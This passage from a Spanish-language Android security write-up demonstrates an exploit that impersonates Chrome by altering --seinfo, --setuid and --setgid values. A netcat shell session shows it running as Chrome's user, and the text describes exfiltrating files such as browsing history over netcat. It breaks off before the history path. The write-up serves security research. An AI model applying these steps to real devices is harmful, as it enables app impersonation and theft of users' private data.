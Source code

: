 Notemos que el valor original (**`-seinfo=platform:privapp:targetSdkVersion=30:complete`**) especifica los contextos "platform" y "privapp", que son correctos para _Settings_ porque es una _aplicación de la plataforma_ y es una _aplicación privilegiada_, pero Chrome no. Para Android, Chrome es una aplicación mucho menos privilegiada que _Settings_ y su contexto es "default".

Cambiemos entonces el valor de `--seinfo` por el correcto para Chrome y probemos de nuevo:

```bash
$ adb shell nc -l -p 31337  
uid=10128(u0_a128) gid=10128(u0_a128) groups=10128(u0_a128),1065(reserved_disk),3009(readproc) context=u:r:untrusted_app:s0:c128,c256,c512,c768
/data/data/com.android.chrome
total 108
drwx------  12 u0_a128 u0_a128        4096 2025-04-17 17:42 .
drwxrwx--x 203 system  system        12288 2025-04-15 19:24 ..
drwx------  14 u0_a128 u0_a128        4096 2025-04-17 17:43 app_chrome
drwxrwx--x   3 u0_a128 u0_a128        4096 2025-04-17 17:42 app_dex
drwxrwx--x   3 u0_a128 u0_a128        4096 2025-04-17 17:42 app_tabs
drwxrwx--x   2 u0_a128 u0_a128        4096 2025-04-15 19:24 app_textures
drwxrws--x   7 u0_a128 u0_a128_cache  4096 2025-04-17 17:42 cache
drwxrws--x   2 u0_a128 u0_a128_cache  4096 2025-04-15 19:24 code_cache
drwxrwx--x   2 u0_a128 u0_a128        4096 2025-04-17 17:42 databases
drwxrwx--x   4 u0_a128 u0_a128        4096 2025-04-15 19:28 files
lrwxrwxrwx   1 root    root             27 2025-04-15 19:24 lib -> /product/app/Chrome/lib/x86
drwxrwx--x   2 u0_a128 u0_a128        4096 2025-04-15 19:43 no_backup
drwxrwx--x   2 u0_a128 u0_a128        4096 2025-04-17 17:42 shared_prefs
```
&nbsp;
Nos tomó un par de intentos, pero salió. Nos volvimos Chrome.

Ahora que tenemos cierto control y sabemos que cambiando los parámetros `--setuid`, `--setgid` y `--seinfo` podemos actuar como cualquier aplicación, vamos al objetivo final.


### Extraer información

El reto de extraer información está en que los contextos de SELinux y el _sandbox_ de las aplicaciones van a dificultar bastante esta tarea.

No basta con usar un comando para copiar archivos de un directorio a otro (donde _adb_ tenga acceso) y luego sacarlos del teléfono. De una u otra forma, Android intenta impedir este tipo de movimientos. Incluso un usuario como _system_ tiene muchas restricciones sobre dónde puede leer y escribir. 

En este experimento intentamos distintos métodos: copiar, redireccionar, usar _pipes_, etc., para sacar archivos completos a un directorio accesible por _adb_, pero fue en vano. Probablemente **NO es imposible**, y queda como una pregunta abierta.

Sin embargo, el versátil _netcat_ nos da una opción bastante práctica: si redireccionamos la salida de un archivo a _netcat_, y en el lado de la escucha redireccionamos esa salida a un archivo **local**, lo logramos. Hagamos la prueba.

Primero, necesitamos un archivo para exfiltrar. Por ejemplo, el historial de navegación de Chrome.

Usando un poco de gimnasia con el proceso/exploit que ya tenemos, encontramos que ese archivo se encuentra en:
